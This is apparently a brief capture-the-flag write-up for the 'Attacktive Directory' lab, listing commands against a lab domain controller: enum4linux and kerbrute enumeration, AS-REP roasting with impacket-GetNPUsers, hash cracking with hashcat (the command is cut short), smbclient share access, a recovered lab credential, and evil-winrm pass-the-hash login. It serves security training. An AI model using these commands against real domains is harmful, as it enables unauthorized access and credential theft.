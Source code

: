# Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
